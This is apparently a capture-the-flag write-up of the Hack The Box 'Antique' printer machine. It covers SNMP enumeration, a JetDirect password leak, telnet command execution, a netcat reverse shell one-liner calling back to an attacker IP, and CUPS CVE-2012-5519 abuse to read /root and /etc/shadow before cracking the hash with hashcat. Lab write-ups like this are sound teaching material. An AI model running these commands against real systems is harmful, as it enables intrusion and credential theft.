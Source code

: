 ```yaml
---
date: 2025-04-11
categories: [CTF, HTB]
title: "HTB - Printer Exploitation Track - Antique"
tags: ['printer', 'pjl', 'pret', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Printer Exploitation Track - - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Printer Exploitation Track - Antique


![image1](../resources/4ab4a45e16964c82b4a94cfe78f5a6f1.png)

![image2](../resources/b9c665893d0d4a9bb06cf3fb233ccfeb.png)

- I couldn't do anything on the telnet connection apart from grab the banner, because I don't know the password

- I came across this site:

`http://www.irongeek.com/i.php?page=security/networkprinterhacking`

- It says that JetAdmin uses SNMP and so I did a UDP scan for SNMP:

![image3](../resources/30fd5ec29f324520bdaea25360df9a44.png)

- And it is using SNMPv1 (according to NMAP)

- But if we use snmpwalk - **we see that v2 is being** used:

```bash
snmpwalk -v 1 -c public 10.129.62.107

```

![image4](../resources/a4d6824c97bd4b9087773c4f6234bb63.png)

```bash
snmpwalk -v 2c -c public 10.129.62.107

```

![image5](../resources/647155bc03b94d36bb4e58d07e2e88f8.png)

**<u>Leak the password</u>**
- According to this article, some JetDirect printers will leak the password (in Hex) if you send a SNMP GET request to a vulnerable printer:
<https://www.exploit-db.com/exploits/22319>

- Using snmpwalk we can add a **.1** to the end to **query ALL**:

```bash
snmpwalk -v 2c -c public 10.129.62.107 .1

```

![image6](../resources/c122c67f32b6493f9f263480d109caeb.png)

- We get the hex back, and can decode it with CyberChef:

![image7](../resources/27a375a3b7b2464dad66418b8e9641af.png)

- We get the password:
**P@ssw0rd@123!!123"#%&'01345789BCIPQTWXaetuy**

- And we are connected (no username - just the password):

![image8](../resources/4751b1eb659941c48b51cff2d3a6ac6d.png)

If the commands doesn't work - close the session and start a new session

- We can use the exec command to execute system commands:

![image9](../resources/13b7c88d840c4def86f0109797990c07.png)

- Set up a listener
- Execute a reverse shell:

```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.29 4444 >/tmp/f

```

![image10](../resources/5b6a9bea2aa8404592bba8dc7852282a.png)


![image11](../resources/a4e9fbecb932482f85d13a46a4e02cf4.png)

- Looking at open ports - we find 631 (Internet Printing Protocol (IPP)) is open:

![image12](../resources/bd07877c03134169bdb907a8383f3c06.png)

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp>

- We can curl to find out more:

```bash
curl http://127.0.0.1:631

```

![image13](../resources/41ecee78d86049a6874e88c32ed27860.png)

- Cups version:

![image14](../resources/24a06f42a552400185eb3e0d405a5d26.png)

- Looking online, we find an exploit for this version CVE-2012–5519:


![image15](../resources/3b9f012adaed4dc89c73740a3768674a.png)

- There is a metasploit module for it:
<https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read>

- But we don't need to use it. We can extract the info from it and just use that:

Read file as root:

- First we need to set the env variable for **ErrorLog** to the file we want to read:

```bash
cupsctl ErrorLog=/root/root.txt

```

![image16](../resources/cfbfb4288bf148afb68839042f40cddc.png)

- Then we need to send a GET request to **/admin/log/error_log?** :

![image17](../resources/f9741cbc1bad4474b430b7304a10a81d.png)

- We can go further and read /etc/shadow and get the root hash:

![image18](../resources/93b1d83fd93443a5b58a3126e80cbe50.png)

- Find the encryption method with:

```bash
grep ENCRYPT_METHOD /etc/login.defs

```

![image19](../resources/480fd9b6907a4ba88990102cae3e5eb3.png)

- I don't know if hashcat will find it but it was taking ages:

```bash
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```